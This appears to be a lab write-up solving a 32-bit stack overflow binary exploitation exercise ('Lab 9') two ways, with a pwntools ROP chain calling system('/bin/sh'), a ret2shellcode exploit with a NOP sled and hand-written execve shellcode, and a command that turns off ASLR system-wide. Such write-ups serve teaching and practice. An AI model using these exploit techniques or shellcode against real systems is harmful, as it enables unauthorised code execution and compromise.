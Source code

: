 # Lab-9
Lab 9 Pwn ROPchain / ret2shellcode solution

#### Check the binary protections

![image](https://github.com/user-attachments/assets/7a9f4329-53ea-4563-86cf-22f2c5ac274e)

#### Check the architechture Type

![image](https://github.com/user-attachments/assets/8b3406d1-8db0-4942-a550-373f0727282f)


### Solution 1 : ROP Way

**Turn Off ASLR**

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

![image](https://github.com/user-attachments/assets/d9fff15f-fd0b-4a6f-95eb-927b2071d71e)


**Leak Libc Base**

![image](https://github.com/user-attachments/assets/47b611e2-a27d-4139-a2fa-ccf25b80deca)


![image](https://github.com/user-attachments/assets/e6e89228-aeed-4f36-be61-ad313cb45100)

so our libc base address we got is : `0xf7d8b000`

we will use system function in the lab9 binary present to call '/bin/sh' from libc as addresses are static wont be an issue
& will print "I did it!"

`solver.py`
```py
import sys
from pwn import *

context.log_level = 'CRITICAL'
context.arch = 'i386'

binary = ELF("lab9")
libc = ELF("/usr/lib32/libc.so.6")

libc_base = 0xf7d66000
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

I_addr = libc_base + next(libc.search(b'I'))
d_addr = libc_base + next(libc.search(b'd'))
i_addr = libc_base + next(libc.search(b'i'))
t_addr = libc_base + next(libc.search(b'T'))
exclamation_addr = libc_base + next(libc.search(b'!'))

format_string = libc_base + next(libc.search(b'%s'))

rop = ROP(binary)

rop.call("printf", [format_string, I_addr])
rop.call("printf", [format_string, d_addr])
rop.call("printf", [format_string, i_addr])
rop.call("printf", [format_string, d_addr])
rop.call("printf", [format_string, i_addr])
rop.call("printf", [format_string, t_addr])
rop.call("printf", [format_string, exclamation_addr])

rop.call(system_addr, [bin_sh_addr])

padding = b"a" * 22
exploit = rop.chain()
payload = padding + exploit

sys.stdout.buffer.write(payload)
```

```
./lab9 $(python3 solver.py)
```

![image](https://gist.github.com/user-attachments/assets/1c6f15b4-93d0-4cca-8da3-c1af28b58b22)








## Ret2Shellcode Way Solution

![image](https://github.com/user-attachments/assets/209afafb-8d9c-41f3-b554-e150efaa470b)

Since our binary has an executable stack(RWX) (indicated by Stack: Executable and NX: NX unknown) 
a ret2shellcode approach is possible. This means we can inject shellcode directly onto the stack and then use a ROP chain to jump to it.

**Find Shellcode Address via GDB**

```bash
b unsafe

run $(python3 -c 'print("A" * 100)')

```

![image](https://github.com/user-attachments/assets/d719489d-1de9-4310-ab2a-42493415b2eb)

**Craft your Exploit**

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./lab9')
context.terminal = ['alacritty', '-e']

offset = 22
shellcode_addr = 0xffffcf50 # somewhere in the nop sled
message_addr = 0xffffd6bc

gs = """
b *main
continue
"""

shellcode = f"""
push 0x41410a21
push 0x74692064
push 0x69642049

push 4
pop eax
push 1
pop ebx
mov ecx, esp
push 10
pop edx
int 0x80

push 0x4168732f
push 0x6e69622f

xor eax, eax
mov byte [esp + 6], al

mov al, 11
mov ebx, esp
xor ecx, ecx
xor edx, edx
int 0x80
"""

payload = b'A'*offset + pack(shellcode_addr)
payload += b'\x90' * 1000
payload += asm(shellcode)

io = process([elf.path, payload])
io.interactive()
```

#### Run it

```bash
python3 solver.py
```

![image](https://github.com/user-attachments/assets/4d8cb0b9-a08e-43f6-a658-8f53d2ded955)


![image](https://github.com/user-attachments/assets/f9687a27-24e8-4230-b8a7-4aa0141db6eb)


### GG We did it

![image](https://github.com/user-attachments/assets/ad93791e-fc88-4fe8-8f8a-9eae462643ab)

